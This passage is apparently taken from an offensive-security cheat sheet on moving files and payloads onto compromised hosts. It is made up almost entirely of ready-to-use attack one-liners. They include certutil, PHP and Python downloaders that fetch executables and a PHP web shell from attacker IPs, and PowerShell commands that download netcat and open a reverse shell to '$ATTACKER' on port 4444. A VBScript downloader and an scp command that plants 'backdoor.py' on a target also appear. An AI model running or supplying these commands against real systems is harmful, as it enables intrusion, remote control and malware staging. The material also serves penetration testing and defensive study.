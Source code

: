 #### CertUtil <a id="certutil"></a>

```bash
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

#### PHP <a id="php-1"></a>

```php
<?php file_put_contents("/var/tmp/shell.php", file_get_contents("http://10.11.0.245/shell.php")); ?>
```

#### Python <a id="python-1"></a>

```python
python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
```

#### HTTP: Powershell <a id="http-powershell"></a>

```text
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); cmd /c nc.exe $ATTACKER 4444 -e cmd.exe" }
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe')"; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'"
powershell (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/file.exe','file.exe');(New-Object -com Shell.Application).ShellExecute('file.exe');

​# download using default proxy credentials and launch
powershell -command { $b=New-Object System.Net.WebClient; $b.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; $b.DownloadString("http://$attacker/nc.exe") | Out-File nc.exe; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
```

#### HTTP: VBScript <a id="http-vbscript"></a>

Copy and paste contents of [wget.vbs](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/wget-cscript) into a Windows Shell and then:

```bash
cscript wget.vbs http://$ATTACKER/file.exe localfile.exe
```

#### HTTP: Linux <a id="http-linux"></a>

```bash
wget http://$ATTACKER/file
curl http://$ATTACKER/file -O
scp ~/file/file.bin user@$TARGET:tmp/backdoor.py
```

#### NetCat <a id="netcat"></a>
